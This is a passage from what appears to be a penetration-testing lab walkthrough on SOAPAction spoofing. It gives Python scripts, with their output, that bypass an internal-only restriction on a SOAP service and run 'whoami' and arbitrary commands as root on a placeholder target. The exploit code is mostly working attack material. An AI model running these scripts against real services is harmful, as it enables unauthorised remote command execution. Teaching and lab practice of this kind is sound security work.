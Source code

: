 The Python script can be executed, as follows.


```shell-session
smoothment@htb[/htb]$ python3 client.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandResponse xmlns="http://tempuri.org/"><success>false</success><error>This function is only allowed in internal networks</error></ExecuteCommandResponse></soap:Body></soap:Envelope>'
```

We get an error mentioning _This function is only allowed in internal networks_. We have no access to the internal networks. Does this mean we are stuck? Not yet! Let us try a SOAPAction spoofing attack, as follows.

Let us build a new Python script for our SOAPAction spoofing attack (save it as `client_soapaction_spoofing.py`).

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

- We specify _LoginRequest_ in `<soap:Body>`, so that our request goes through. This operation is allowed from the outside.
- We specify the parameters of _ExecuteCommand_ because we want to have the SOAP service execute a `whoami` command.
- We specify the blocked operation (_ExecuteCommand_) in the SOAPAction header

If the web service determines the operation to be executed based solely on the SOAPAction header, we may bypass the restrictions and have the SOAP service execute a `whoami` command.

Let us execute the new script.

```shell-session
smoothment@htb[/htb]$ python3 client_soapaction_spoofing.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'
```

Our `whoami` command was executed successfully, bypassing the restrictions through SOAPAction spoofing!

If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as `automate.py`).


```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
